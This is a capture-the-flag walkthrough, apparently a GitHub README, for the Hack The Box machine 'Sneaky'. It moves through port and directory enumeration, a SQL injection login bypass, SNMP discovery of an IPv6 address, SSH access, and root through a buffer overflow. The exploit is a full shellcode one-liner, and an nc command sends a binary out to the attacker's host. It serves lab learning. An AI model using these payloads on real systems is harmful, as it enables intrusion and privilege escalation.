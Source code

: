 
![logo](/logo.png)

# [Sneaky- BOX]  
Hi folks, today I am going to solve an medium rated hack the box machine which was released on 03 May 2017 as the 14th machine on HTB,Sneaky created by [trickster0](https://app.hackthebox.com/users/169).So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *OverflowBuffer
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/sneaky 10.10.10.20
```

###### Output 

![](/Linux/Linux-Medium/Sneaky/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/sneaky 10.10.10.20                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-18 10:58 EAT
Nmap scan report for 10.10.10.20
Host is up (0.37s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Under Development!
|_http-server-header: Apache/2.4.7 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.19 seconds
```

looking at the results  we find out that there are 1 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.7`. 

port[80]-http

when we naviagate to [http://10.10.10.20](http://10.10.10.20)  we find a page  `under devolpment`

![](/Linux/Linux-Medium/Sneaky/Screenshots/underdevs.png)

we find nothing of intreasting on the page so lets try enumerate directories with `gobuster` 

```sh
gobuster dir -u http://10.10.10.20 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k 
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/gobuster.png)

Imedialtely we find  a dev dierectory and upon looking at  it we find a page [http://10.10.10.20/dev/](http://10.10.10.20/dev/)
![](/Linux/Linux-Medium/Sneaky/Screenshots/dev.png)

# Exploitation

#### SQL Injection

SQL injection on the dev page is trivial. Simply passing `admin' OR '1'='1` as the password will completely bypass the login and reveal an SSH key as well as a system username.

![](/Linux/Linux-Medium/Sneaky/Screenshots/ssh.png)

```sh
curl -s http://10.10.10.20/dev/sshkeyforadministratordifficulttimes -o id_rsa
```

The issue now arises that there is seemingly no SSH server available on the target as nmap showed. so let repeat nmap to see if we can get anthing of `udp` 

```sh
nmap -sV -sC -sU -oA nmap/sneaky 10.10.10.20 
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/udp.png)

we find a udp port that is open `161` and it is running an `SNMPV1` and `SNMPv3`

### SNMP

since snmp is availabe lets runn `snmpwalk` on the htb target but with an `Ipv4`  that we are using for to connect to HTB .

```sh
snmpwalk -Os -c public -v 1 10.10.10.20
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/snmpwalk.png)

![](/Linux/Linux-Medium/Sneaky/Screenshots/unreaable.png)


since our output is not readable lets download an `add-on-package` to make our output readable

```sh
sudo apt install snmp-mibs-downloader
```

and then comment out the line in `/etc/snmp/snmp.conf`  comment the `mib:`

we can see an `IPv6` 

![](/Linux/Linux-Medium/Sneaky/Screenshots/readable.png)

#### something about IPV6
`dead:beef:0000:0000:0250:56ff:feb9:be08` is the globally routable address, and `fe80:0000:0000:0000:0250:56ff:feb9:be08` is the link-local address.

This address will change on each boot because of how HTB has the machines spawn in the lab (MACs aren’t consistent). I wrote a one-liner to capture the IPv6:

```sh
snmpwalk -v2c -c public 10.10.10.20 ipAddressIfIndex.ipv6 | cut -d'"' -f2 | grep 'de:ad' | sed -E 's/(.{2}):(.{2})/\1\2/g'
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/oneliner.png)

![](/Linux/Linux-Medium/Sneaky/Screenshots/snm.png)

Now that we have the IP lets do an nmap to see if wee can find port 22 open for the ssh.But first just checking on the browser it looks like we can access the Ivp6

![](/Linux/Linux-Medium/Sneaky/Screenshots/Ivp6b.png)

```sh
nmap -6 -p- -sV -oA nmap/sneakyIvp6 dead:beef:0000:0000:0250:56ff:feb0:a425
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/nmapipv6.png)

Now that port `22` is open we can `ssh` to it with the user earlier

![](/Linux/Linux-Medium/Sneaky/Screenshots/shell.png)

You can get the user flag now

![](/Linux/Linux-Medium/Sneaky/Screenshots/userflag.png)
#### Alternative Methods for Finding IPv6

# Privillge Escalation

Now that we got the shell let run `LinEnum` to find vulnerablility in the machine

![](/Linux/Linux-Medium/Sneaky/Screenshots/wget.png)

![](/Linux/Linux-Medium/Sneaky/Screenshots/suid.png)

Running LinEnum reveals a non-standard `SUID` binary at `/usr/local/bin/chal`. Attempting to run
the binary with a large argument produces a segmentation fault, and it is fairly obvious that it is
vulnerable to a buffer overflow exploit.

let's send the binary to our machine so that we can anlyze it .

```sh
nc -w 5 10.10.14.15 8000 < chal
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/binary.png)

![](/Linux/Linux-Medium/Sneaky/Screenshots/chal.png)

Running the binary in gdb with a pattern reveals that the EIP offset is `362 bytes`. The buffer
appears to start roughly around 0xbffff760 in this case, so a return address of `0xbffff7b0` will be used in the payload to account for any shift in addresses. The target is little endian, so the return
address must be provided in reverse order.

The payload is very simple as far as buffer overflows as concerned. It is (with a `28 byte /bin/sh`
shellcode) a `334` byte long NOP sled, followed by the shellcode, and then the return address. The
following command will immediately grant a root shell.

```sh
chal $(python -c "print '\x90'*334 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\xb0\xf7\xff\xbf' ")
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/rootflag.png)


	-------------------------END successful attack @lesley----------------------
